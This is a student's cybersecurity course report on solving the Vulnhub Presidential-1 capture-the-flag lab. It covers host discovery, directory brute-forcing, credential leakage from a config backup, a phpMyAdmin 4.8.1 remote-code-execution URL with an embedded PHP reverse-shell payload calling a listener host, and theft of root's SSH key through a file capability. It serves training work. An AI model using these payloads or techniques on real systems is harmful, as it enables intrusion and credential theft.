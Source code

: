 # Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.
The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

![Steps of recognition](images/recognition.png)  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the **`/etc/hosts`** file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: this is the main page of the web server, which has already been visited.
2. **`/about.html`**: this page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`/config.php.bak`**: this file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`/config.php`**: this file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (**`/dirbuster/wordlists/directory-list-2.3-medium.txt`**), a single subdomain was found: datasafe.votenow.local.

Navigating to the subdomain's web page reveals an access panel for "phpMyAdmin". By entering the previously obtained credentials, the login is successful. Once logged in, the interface allows direct interaction with a SQL database through the execution of queries. From this database, it is possible to retrieve the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

![Execution of Gobuster to obtain the subdomains and password cracking](subdomain_john_hash)

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows remote code execution. 

![Searchsploit response](images/searchsploit.png)

Detailed information on how to exploit the RCE vulnerability is provided in response to the following searchsploit command:

`searchsploit -x /php/webapps/50457.py`

The exact same exploit is presented [here](https://www.exploit-db.com/exploits/50457).

As a first approximation the exploit steps in sequence are:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query
4) accurately edit the URL and execute the payload.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by inspecting the browser's developer tools to find the value of the cookie named phpMyAdmin.

Once authenticated it is possible to execute SQL queries on the databases present, so the point 3 can be easily done. The query must contain a php script within backticks, but in this stage it would not been executed. Under normal circumstances, the web application does not interpret or execute code placed within backticks in the SQL queries. However, by meticulously crafting the URL, it becomes possible to execute the script. This script embedded in the SQL query is the payload.

The URL must be edited to the following format:

`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieVal}`

replacing `{cookieVal}` with the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, the embedded script within the query is executed, establishing a reverse shell on the target machine.

The IP address **`10.0.2.4`** mentioned in the query is the Kali Linux machine's IP where the listener is active on port 443.

![Exploitation of the vulnerability](images/sql_vuln.png)

Following payload execution, a successful reverse shell is established. Authentication is accomplished using the previously obtained admin user credentials.

To acquire a more functional interactive shell compared to the initially obtained limited one, the following Python command is employed:
`python -c "import pty; pty.spawn('/bin/bash')"`

By utilizing the `ls` command to list files and directories, it becomes evident that direct access to the flag of **`user.txt`** and the file **`read.txt`** is achievable.

![Reverse shell connection and authentication](images/reverse_shell.png)

## Privilege Escalation

The last steps concern scaling privileges in order to gain root access.
The next thing to do is use `getcap` command to list the available capabilities associated with files in the file system.  

It is noted that the tarS binary has '+ep' set. This setting grants the `cap_dac_read_search` capability, allowing tarS to read and search files in locations where it has DAC (Discretionary Access Control) permissions, without requiring full root privileges. Thus, tarS can compress files across the system without root access. Once compressed, files contents can be revealed by simply performing the decompression.

The **`/root/.ssh/`** directory contains an **`id_rsa`** file, which typically holds an RSA private key for SSH authentication.
By using tarS to compress and decompress **`id_rsa`**, become possible to view its contents.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called **`id_rsa.tar`** containing the **`id_rsa`** file present in the **`/root/.ssh/`** directory.

* `tar -xvf id_rsa.tar` : extracts files from the **`id_rsa.tar`** archive.

After the execution of these two commands, the **`id_rsa`** file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, the final-flag can be obtained and this completes the challenge.

![Root access](images/ssh_&_final_flag.png)
